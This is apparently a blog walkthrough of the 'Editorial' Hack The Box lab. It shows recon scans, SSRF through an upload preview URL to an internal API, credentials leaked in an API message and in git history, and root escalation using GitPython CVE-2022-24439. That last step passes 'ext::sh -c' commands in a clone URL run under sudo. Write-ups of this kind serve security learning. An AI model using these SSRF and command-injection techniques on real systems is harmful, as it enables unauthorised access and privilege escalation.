

# <center>Editorial</center>

Hey bud! Today I'll walk you through another easy labeled linux based machine `editorial`.

## It's scanning and enumeration time.

### whatweb scan
```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ whatweb 10.10.11.20                     
http://10.10.11.20 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.20], RedirectLocation[http://editorial.htb], Title[301 Moved Permanently], nginx[1.18.0]
http://editorial.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.20], Title[Editorial Tiempo Arriba], X-UA-Compatible[IE=edge], nginx[1.18.0]
```
- got a domain name `editorial.htb`. lets edit it in out /etc/hosts file.

### Nmap scan

- `nmap -A -T4 10.10.11.20`
```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ nmap -A -T4 10.10.11.20    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-24 16:41 IST
Nmap scan report for editorial.htb (10.10.11.20)
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Editorial Tiempo Arriba
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.63 seconds
```
- two open ports , 22 and 80 with ssh and http running.

### feroxbuster enumeration

- `feroxbuster -u http://editorial.htb`


## Let's check the website

- normal website with /upload and /about webpages as suggested by feroxbuster enumeration.
- only interesting page with user interaction is /upload because it has some input fields and input fields means possibility of vulnerabilities.


### searching for vulnerabilities

#### <b>Is there File upload vulnerability?</b>

Fisrt of all, as soon as i saw file upload function, file upload vulnerabilities striked my mind. We have two buttons on the page: 'preview' and 'Send book info'. Let's upload a image with name `test.jpeg`and intercept the request in burp.


Meanwhile, 


Here we can see that our image is not going to server, when we click 'Send book info' button, only the data is. Next time i tried 'preview' button and it sent a post request with image and url.

.png)

and next we can see out image being previewed on hte page.


Image is uploaded, but can we access it?

When I tried to right click and open image in new tab, instead of opening, the image was downloaded to my local system. It's name was changed and extension was removed.


Since the image is getting downloaded on out local system instead of being previewed, directly uploading the webshell through image will not be executed on the server. Hence, File upload vulnerability might not be the one we are looking for!

#### <b>So what's next?</b>

The post request that was sent to server wheen wwe previewed our image contained url part as well.
.png)

So, as a next step we can tamper with the url and test for Server Side Request Forgery(SSRF). i changed the url to `http://localhost` and this responded with an image.


There must be an specific port that would listen to this request. Let's use intruder to check.

.png)


And ATTAcK. once done, using the filter we can get port 5000 listening. when we send request using url `http://localhost:5000` we obtain a file.


An as we try that file in browser, the file is downloaded to our localsystem. Let's cat out the file.
```bash
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ cat bfe71318-cbe0-4a91-9c03-c7f2152ce6aa | jq
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```
The fil contains all the available api endpoints. Among them `/api/latest/metadata/messages/authors` seems little interesting coz it might have the info about users. Or else, we can hit on all the endpoints to check the what we get.

When `/api/latest/metadata/messages/authors` was hit, we got an interesting file downloaded to out system and the content of that file goes as:
```bash
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ cat 08954768-ec71-48e6-82e6-771882a672c3| jq              
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```
from this file we have username:dev & password:dev080217_devAPI!@

Since SSH is running on port 22, let's try this creds and hurray, we got logged in as dev. Now easily we can grab user flag using the following commands.


## Previlege Escalation

Let's check what dev can do .
```bash
dev@editorial:~$ sudo -l
[sudo] password for dev:
Sorry, user dev may not run sudo on editorial.
```

Nothing at all 🥲

Let's check /app directory.
```bash
dev@editorial:~$ cd apps/
dev@editorial:~/apps$ ls
dev@editorial:~/apps$ ls -al
total 12
drwxrwxr-x 3 dev dev 4096 Jun  5 14:36 .
drwxr-x--- 5 dev dev 4096 Jun 24 13:06 ..
drwxr-xr-x 8 dev dev 4096 Jun  5 14:36 .git
```
So this is a git repository. let's checkout logs. It has plenty of commits. Cchecking out all the commits one by one, `commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` contains some information about credentials of prod.
```bash
dev@editorial:~/apps$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev

    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass

 # -------------------------------
```
from this commit we have username:prod & password:080217_Producti0n_2023!@

Let's try logging in using this creds and voila we are in. Now we are logged in as prod.
```bash
prod@editorial:~$ whoami
prod
prod@editorial:~$ sudo -l
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

This means that with sudo privileges we can run python3 command above mentioned python code. Let’s see what it is.
```bash
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
prod@editorial:~$
```
- The python code is using git library for clone operation, and using `pip list` command we can see the
library version for GitPython is 3.1.29 which is vulnerable to RCE. [CVE-2022-24439](https://github.com/gitpython-developers/GitPython/issues/1515)

### Exploiting the vulnerability

Let's create /tmp/pwned using the above POC.

```bash
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/pwned new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.'
```

This command was successfully executed by root user. In the command % symbol is used to escape space.

File /tmp/pwned was created successfully.
```bash
prod@editorial:~$ ls -al /tmp/pwned
-rw-r--r-- 1 root root 0 Jun 24 15:15 /tmp/pwned
```

Now we can modify the exploit to get the content from /root/root.txt as 'ext::sh -c cat% /root/root.txt% >% /tmp/root':


And we are done. Thankyou!

